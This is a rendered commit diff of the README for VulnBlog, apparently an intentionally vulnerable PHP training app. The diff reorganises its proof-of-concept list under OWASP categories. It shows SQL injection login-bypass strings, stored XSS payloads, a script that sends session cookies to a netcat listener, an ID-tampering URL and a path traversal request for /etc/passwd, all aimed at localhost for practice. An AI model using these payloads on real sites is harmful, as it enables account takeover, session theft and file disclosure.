

Before and after one commit to FelixSchuster/VulnBlog, a Markdown page: README.md, the part around the change. Shown: that part at 84% size. Drawn GitHub-style; pictures changed too: database/db.drawio.png; blank space fills up the shorter version.

Commit message:
add feature: 'edit blogposts', update README.md and website design

````diff
--- a/README.md
+++ b/README.md
@@ -23,25 +23,48 @@ Passwords are currently saved in plain text, might change this later on.. or not
 
 ## Vulnerabilities / Proof of Concept
 
-### Local File Inclusion
+### A01:2021 – Broken Access Control
+#### Example 1
+In the navbar select 'Previously created Blogposts' and edit any blogpost.
+You can edit blogposts of other users by editing the id parameter in the url.
+```
+http://127.0.0.1/vulnblog/index.php?page=edit_blogpost.php&id=<EDIT THIS>
+```
+
+### A03:2021 – Injection
+#### Example 1: SQL Injection
+The login form is injectable:
+```
+http://127.0.0.1/vulnblog/index.php?page=login.php
+```
+
+Valid SQL injection queries are:
+```
+' or 1=1 #
+admin' #
+```
+
+#### Example 2: Stored Cross-Site-Scripting
+Create a blogpost including the following payload:
+```
+<script>alert("XSS");</script>
+```
+
+Try hijacking a php session cookie using the payload:
+```
+<script>fetch('http://127.0.0.1:1234/'+document.cookie);</script>
+```
+
+Additionally start a netcat listener using:
+```
+nc -lvnkp 1234
+```
+
+### A04:2013 - Insecure Direct Object References
+#### Example 1
 Try accessing:
 ```
 http://127.0.0.1/vulnblog/index.php?page=../../../../../../../../etc/passwd
-```
-
-### Stored Cross-Site-Scripting
-Create a blogpost including the following payload:
-```
-<script>
-    alert("XSS");
-</script>
-```
-
-### SQL Injection
-Valid SQL injection queries:
-```
-' or 1=1 #
-admin' #
 ```
 
 ## Database
````
Also changed, not shown: 11 other files.
